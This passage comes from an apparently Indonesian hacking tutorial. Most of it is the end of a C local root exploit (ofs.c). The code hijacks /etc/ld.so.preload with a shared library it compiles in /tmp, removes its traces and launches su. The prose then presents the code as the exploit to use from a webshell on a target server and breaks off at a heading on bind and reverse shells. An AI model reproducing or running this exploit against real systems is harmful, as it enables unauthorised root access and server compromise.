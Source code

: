                 exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}
{% endhighlight %}

File ofs.c adalah eksploit yang akan kita gunakan. Kita butuh meng-compile file eksploit ini ke dalam server, namun meng-compile di webshell langsung (via browser) hasilnya error seperti gambar di bawah. 

![gcc-error](/assets/img/posts/firststep/b347k-gcc-error.png)

Ini terjadi karena webshell bukan merupakan live shell, maka kita butuh suatu cara untuk meng-compile file tersebut diluar webshell.

### Bind / Reverse Shell
